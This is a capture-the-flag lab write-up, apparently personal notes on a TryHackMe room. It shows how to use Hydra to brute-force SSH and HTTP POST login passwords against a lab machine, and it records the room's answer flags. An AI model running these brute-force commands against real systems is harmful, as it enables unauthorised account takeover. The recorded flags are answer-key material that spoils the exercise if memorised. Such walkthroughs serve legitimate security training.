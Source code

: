 Deploy the machine attached to this task, then navigate to [http://MACHINE_IP](http://machine_ip/) _(this machine can take up to 3 minutes to boot)_

## Hydra Commands

The options we pass into Hydra depend on which service (protocol) we’re attacking. For example, if we wanted to brute force FTP with the username being `user` and a password list being `passlist.txt`, we’d use the following command:

`hydra -l user -P passlist.txt ftp://MACHINE_IP`

For this deployed machine, here are the commands to use Hydra on SSH and a web form (POST method).

### SSH

```
hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh
```

|Option|Description|
|---|---|
|-l |specifies the (SSH) username for login|
|-P |indicates a list of passwords|
|-t |sets the number of threads to spawn|

For example, `hydra -l root -P passwords.txt MACHINE_IP -t 4 ssh` will run with the following arguments:

- Hydra will use `root` as the username for `ssh`
- It will try the passwords in the `passwords.txt` file
- There will be four threads running in parallel as indicated by `-t 4`

### Post Web Form

We can use Hydra to brute force web forms too. You must know which type of request it is making; GET or POST methods are commonly used. You can use your browser’s network tab (in developer tools) to see the request types or view the source code.

`sudo hydra <username> <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>"`

Example:

Using Burp:

![[Pasted image 20240218233618.png]]

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.130.60 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
```

![[Pasted image 20240218202715.png]]

|Option|Description|
|---|---|
|-l |the username for (web form) login|
|-P |the password list to use|
|http-post-form |the type of the form is POST|
|`<path>`  |the login page URL, for example, `login.php`|
|<login_credentials> |the username and password used to log in, for example, `username=^USER^&password=^PASS^`|
|<invalid_response> |part of the response when the login fails|
|-V |verbose output for every attempt|

Below is a more concrete example Hydra command to brute force a POST login form:

`hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

- The login page is only `/`, i.e., the main IP address.
- The `username` is the form field where the username is entered
- The specified username(s) will replace `^USER^`
- The `password` is the form field where the password is entered
- The provided passwords will be replacing `^PASS^`
- Finally, `F=incorrect` is a string that appears in the server reply when the login fails

You should now have enough information to put this to practice and brute force your credentials to the deployed machine!

Answer the questions below

| Question | Answer |
| ---- | ---- |
| Use Hydra to bruteforce molly's web password. What is flag 1? | THM{2673a7dd116de68e85c48ec0b1f2612e} |
|  |  |

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.130.60 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
```

![[Pasted image 20240218203421.png]]


![[Pasted image 20240218203034.png]]

| Question | Answer    |
| -------- | --- |
| Use Hydra to bruteforce molly's SSH password. What is flag 2?         | THM{c8eeb0468febbadea859baeb33b2541b}    |

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.130.60 ssh
```

![[Pasted image 20240218203521.png]]

```
ssh molly@10.10.130.60
```

![[Pasted image 20240218203835.png]]

![[Pasted image 20240218204001.png]]

